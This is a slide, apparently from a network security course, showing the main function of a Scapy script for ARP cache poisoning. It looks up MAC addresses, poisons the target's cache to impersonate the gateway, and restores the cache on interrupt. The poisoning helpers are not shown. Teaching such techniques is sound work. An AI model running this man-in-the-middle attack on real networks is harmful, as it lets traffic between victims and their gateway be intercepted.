

Network (cont.)
ARP Cache Poisoning with Scapy (cont.)
The main function main should look like the following:
def main(target_ip, target_gw_ip, iface):
    attacker_mac    = get_if_hwaddr(iface)
    target_mac      = getmacbyip(target_ip)
    original_gw_mac = getmacbyip(target_gw_ip)
    try:
        print(f"Poisoning ARP cache of {target_ip}..")
        do_poison_arp(attacker_mac, target_gw_ip, target_mac, target_ip)
    except KeyboardInterrupt:
        print("Restoring ARP cache..")
        restore_arp(original_gw_mac, target_gw_ip, target_mac, target_ip)
117